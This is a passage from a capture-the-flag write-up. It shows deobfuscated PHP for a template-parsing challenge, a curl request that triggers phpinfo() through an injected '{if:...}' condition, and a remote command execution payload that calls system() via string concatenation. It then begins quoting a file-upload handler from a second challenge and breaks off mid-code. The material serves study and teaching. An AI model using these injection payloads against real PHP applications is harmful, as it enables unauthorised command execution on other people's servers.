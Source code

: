 ```php
            } catch (Throwable $e) {
                $message = "WTF you doing?";
                goto end;
            }
        }
        $output = htmlspecialchars($h);
    } else {
        $message = "WTF you doing?";
    }
}
end:
?>
```

After deobfuscating the source code of the app we can see that we need to validate this condition:
``{if: condition) action; //}payload{end if}`` 
which regex is 
`/\{if:\s*(.*?)\)\s*(.*?)\s*;\/\/\}(.*?)\{end if\}/is`
lets test a simple phpinfo() payload with **`{if: 1); phpinfo();//}{end if}`**
```bash
curl http://20.199.80.129:2022/?parse=%7Bif%3A+1%29%3B+phpinfo%28%29%3B%2F%2F%7D%7Bend+if%7D
````
and we can get the **phpinfo()** page.

Now lets craft a payload to get a Remote Command Execution:
```r
parse={if:3<4)('s'.'ystem')('cat *.txt');//}ndl{end if}
```

Final request:
>Poc
![](Pasted%20image%2020250223215518.png)
## III. Chained Together
This challenge comes with a source code we first check `contact.php`
```php
$file = $_FILES['file'];
$filename = basename($file['name']);
$ext = strtolower(pathinfo($filename, PATHINFO_EXTENSION));
$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
if (!in_array($file['type'], $allowed_types) || !in_array($ext, ['jpg', 'png', 'gif'])) {
                die("Invalid scroll type or markin', arr!");
            }
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime_type = finfo_file($finfo, $file['tmp_name']);
if (!in_array($mime_type, $allowed_types)) {
	die("Scroll contents be fishy, arr!");
            }
$upload_dir = 'uploads/';
$target_path = $upload_dir . $filename;
if (move_uploaded_file($file['tmp_name'], $target_path)) {

    $_SESSION['upload_complete'] = true;
    $_SESSION['uploaded_file'] = $filename;
    echo "Message stowed successfully: <a ref='/uploads/$filename'>$filename</a>";
        } 
else {
	echo "Message lost at sea, arr!";
		}

        } 
else {
	echo "<form method='POST' enctype='multipart/form-data'>";
	echo "<input type='file' name='file' required><br>";
	echo "<input type='submit' value='Toss Bottle'>";
```